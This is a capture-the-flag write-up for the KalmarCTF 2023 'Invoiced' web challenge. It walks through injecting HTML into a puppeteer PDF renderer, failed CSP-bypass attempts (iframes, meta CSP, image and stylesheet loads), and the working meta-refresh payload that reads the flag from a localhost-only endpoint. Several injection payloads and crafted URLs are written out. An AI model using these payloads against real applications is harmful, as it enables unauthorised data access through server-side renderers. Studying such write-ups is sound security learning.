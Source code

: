 ```yaml
---
title: "KalmarCTF 2023 - Invoiced - Writeup"
date: "2023-03-05"
---
```


## Final working payload

Name: `a</title><meta http-equiv="Refresh" content="0; url='http://127.0.0.1:5000/orders'" />`

Others: empty 

## What we know

* Download source 
* Read files:
  * payments.js - get discount code FREEZTUFSSZ1412
  * app.js - get the implementation
    * GET /cart => show form to post to checkout 
    * POST /checkout => visit url, turn to pdf 
      * pdf impl: open puppeteer, visit /renderInvoice?name=..., wait for
        networkidle0, bake to pdf 
    * GET /renderInvoice => replace variables in template 
      * URL parameters are rendered without escaping => XSS 
    * GET /orders => return flag 
* Find unique safety features:
  * /renderInvoice has:
    * CSP  
      * default-src unsafe-inline maxcdn.bootstrapcdn
      * object-src none 
      * script-src none 
      * img-src self dummyimage.com 
  * /orders has:
    * checks remote address is 127.0.0.1
    * checks for no "Bot" cookie
    * sets X-Frame-Options to none (NO EFFECT)
    * returns flag
  * PDF bot always sets the bot cookie 
    * SameSite=Strict
    * HttpOnly


## Enumerate the possibilities

In no defined order, we tried to inject:

* script tag 
  * fails because script-src 
* meta http-equiv CSP 
  * first thought it was failing because it was rendered twice...
    used tricks like `name=...<!-- address=-->` to no avail
    wrong, it was failing because of the subtractive principle of csp
  * if CSP header and meta tag are both present, they are subtractive
* iframe `/orders`  
  * fails because frame-src 
  * got too stuck on credentialless iframe, spent way too much time
* iframe srcdoc then script 
  * fails because srcdoc inherits parent CSP 
* Reviewing bootstrap
  * Nothing interesting 
  .. and would still follow CSP 
* Considered scanning maxcdn 
  * didn't
* `<img src="/orders">`
  * works but wrong mime so broken image :) 
  * no interesting mime types that are actually plaintext, either
  * using `<picture><source src>` to set the mime type doesn't work 
    * because the flag is not an SVG
* loading it as a VTT subtitle 
  * using `<video><track>` doesn't work because CSP
    (media-src => default-src => no 'self')
* got desperate, thought we could load JS from bootstrap cdn
  * still can't, script-src hasn't changed, it's still none ...
* `<base>` tag?
  * no 
* trusted types?
  * what?
* then `@amahlaka97` flies in with 
  `a</title><meta http-equiv="Refresh" content="0; url='http://localhost:5000/orders'" />`
* have to bypass bot cookie 
  * maybe we run the meta inside a credentialless iframe?
    * no, because CSP frame-src
* `amahlaka97`: we somehow just need to get the bot cookie removed from the refresh request
  * yes
  * just change the origin
  * localhost is not 127.0.0.1
* HUH WAIT THAT COULD BE IT 
  * `a</title><meta http-equiv="Refresh" content="0; url='http://127.0.0.1:5000/orders'" />`
  * BOOM FLÄG 

kalmar{fr33_r34l_3st4t3_c91ad62}

## Learnings

* Be comprehensive
* Get an `@amahlaka97` in your team
* There are many many ways to load files
* CSP can't be relaxed, only restricted with more CSP tags
* Never forget meta refresh tag

## Ranting and rambling while solving it...


* lots of different things we tried to mess with CSP 

```
<iframe loading="eager" src="/orders" width="200" height="200" style="background:red" credentialless>NOT LOADED</iframe>
```

  - empty page (cc invoice.pdf, invoice2.pdf)

```
<iframe srcdoc="<!DOCTYPE html>"></iframe>
```

^ Works but can't run scripts  -- it inherits csp

Idea from Carlos (Hi @carlospolop)

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp

```
<iframe src='data:text/html,<script>fetch("/orders")</script>'></iframe>
```

---

http://invoiced.chal-kalmarc.tf/renderInvoice?name=%3Ciframe%20src=%22data:text/html,HI%22%3E%3C/iframe%3E

csp default-src 'unsafe-inline' maxcdn.bootstrapcdn.com; object-src 'none'; script-src 'none'; img-src 'self' dummyimage.com

```
<iframe src="https://maxcdn.bootstrapcdn.com" sandbox="allow-scripts"></iframe>
```

---

We can write the csp tag since name is injected to head? 

```
/renderInvoice?name=</title><meta%20http-equiv="Content-Security-Policy"%20content="default-src%20*%20%27unsafe-inline%27,script-src%20%27unsafe-inline%27">&address=Fred<script>fetch("/orders").then(x=>x.text()).then((text)document.body.innerHTML+=text;</script>
```

```
http://localhost:5001/renderInvoice?name=fred%3C/title%3E%3Cmeta%20http-equiv=%22Content-Security-Policy%22%20content=%22frame-src%20*%22%3E&address=%3Ciframe%20src=%22http://localhost:5001/orders%22%20credentialless%3E%3C/iframe%3E
```

NAME: 

```
fred</title><meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline'; frame-src http://localhost:5001"></head><body><!--
```

ADDRESS: 

```
--><iframe src="http://localhost:5001/orders" credentialless></iframe>
```

---

```
fred</title><meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline'; script-src *; frame-src http://localhost:5001"></head><body><!--
```

----

HMM

Judging the CSP again ...

* img-src 'self'
* the only endpoint without explicit setHeader("Content-Type"...) is /orders 


---

Can't load it as CSS (default-src ! 'self')

```
http://invoiced.chal-kalmarc.tf/renderInvoice?name=fred%3C/title%3E%3Clink%20rel=%22stylesheet%22%20href=%22/orders%22%20type=%22text/css%22%3E&address=bork%3Ckalmar%3EHELLO%3C/kalmar%3E
```

---

Can't seem to load it as SVG

```
http://invoiced.chal-kalmarc.tf/renderInvoice?name=fred%3C/title%3E&address=%3Cpicture%3E%3Csource%20srcset=%22/orders%22%20type=%22image/svg%2bxml%22%20media=%22screen%22%3E%3Cimg%20src=%22https://dummyimage.com/70x70/000/fff%22%3E%3C/picture%3E&phone=hello%3Cstyle%3Ebody{background:url(/orders)}%3C/style%3E
```

--- 

Can't seem to use base href for anything useful

```
http://invoiced.chal-kalmarc.tf/renderInvoice?name=fred%3C/title%3E%3Cbase%20href=%22/orders%22%3E&address=%3Cpicture%3E%3Csource%20srcset=%22/orders%22%20type=%22image/svg%2bxml%22%20media=%22screen%22%3E%3Cimg%20src=%22https://dummyimage.com/70x70/000/fff%22%3E%3C/picture%3E&phone=hello%3Cstyle%3Ebody{background:url(/orders)}%3C/style%3E
```
